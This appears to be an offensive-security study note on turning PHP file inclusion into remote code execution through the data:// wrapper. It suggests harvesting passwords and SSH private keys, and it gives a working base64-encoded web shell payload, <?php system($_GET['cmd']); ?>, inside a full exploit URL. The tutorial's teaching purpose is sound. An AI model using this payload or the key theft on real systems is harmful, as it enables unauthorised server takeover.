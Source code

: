 Aside from [using PHP wrappers for file disclosures](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FFile%20Inclusion%20Vulnerabilities%2FFile%20Disclosures%2FUsing%20PHP%20Wrappers) through the file inclusion vulnerability. The same technique can also be used to perform code executions.

While we can use many different methods to execute remote commands depending on the backend language/framework and the vulnerable function's capabilities. The most command method for gaining control over the backend server is by enumerating for user credentials and SSH keys, and then use those to login to the backend server through SSH or any remote session.

For example, we may find the database password in `config.php`, which may match a user's password in case they re-use the same password. Or we can check the `.ssh` directory in each user's home directory, and if the read privileges are not set properly, then we may be able to grab their private key (`id_rsa`) and use it to SSH into the system.
## Data Wrapper
The [data](https://www.php.net/manual/en/wrappers.data.php) wrapper can be used to include external data, including PHP code. We can access the data wrapper using `data://`.

However, the data wrapper is only available to use if the (`allow_url_include`) setting is enabled in the PHP configurations. To confirm this, we need to use the `convert.base64-encode` for the `read` parameter [technique](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FFile%20Inclusion%20Vulnerabilities%2FFile%20Disclosures%2FUsing%20PHP%20Wrappers) to read PHP configuration files.

Once we have the base64 encoded string, we can decode it and `grep` for `allow_url_include` to see its value:
```bash
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On 
```
### Remote Code Execution
With `allow_url_include` enabled, we can proceed with our attack using the `data` wrapper. Aside from passing plain PHP code, we can also pass it `base64` encoded strings with `text/plain;base64`, and it has the ability to decode them and execute the PHP code.

First we encode our payload in Base64 as follows:
```bash
echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg== 
```

Then we pass the encoded payload into the data wrapper as follows:
```txt
http://target-website.com/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```